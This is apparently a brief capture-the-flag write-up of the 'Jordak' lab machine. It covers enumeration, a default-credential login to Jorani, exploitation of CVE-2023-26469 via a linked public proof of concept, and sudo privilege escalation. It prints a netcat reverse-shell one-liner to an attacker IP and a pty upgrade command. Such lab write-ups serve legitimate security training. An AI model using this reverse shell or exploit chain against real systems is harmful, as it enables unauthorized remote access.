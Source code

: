 # Jordak

So i start enumeration and find 2 open ports:

<figure><img src="../../../.gitbook/assets/image (19) (1) (1).png" alt=""><figcaption></figcaption></figure>

On the webpage, we see a normal apache server webpage, and after fuzzing for a bit, we find a .git directory that redirects us to this page:

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

I go on internet and look for default credentials:

<figure><img src="../../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

and i manage to login:

<figure><img src="../../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

I see that it is Jorani V1, so i look for exploits that i can maybe leverage and end up on this CVE:

{% embed url="https://nvd.nist.gov/vuln/detail/CVE-2023-26469" %}

I tried soe POCs and the one from orangecyberdefense was the best in my opinion:

{% embed url="https://github.com/Orange-Cyberdefense/CVE-repository/blob/master/PoCs/CVE_Jorani.py" %}

It gave me a pseudo term:&#x20;

<figure><img src="../../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

I can catch my local.txt flag with ease but the shell is very restrictive so i go and get a reverse shell with the following command:

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 192.168.49.54 1234 >/tmp/f
```

and upgrade my low interactive shell with a full tty command:

```
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

then i look at my sudo rights:

<figure><img src="../../../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

and see that there are exploits to elevate our shell:

<figure><img src="../../../.gitbook/assets/image (6) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

and we adapt the command to fit to our rights and bam:

<figure><img src="../../../.gitbook/assets/image (7) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Onto the next one

<figure><img src="../../../.gitbook/assets/image (8) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>
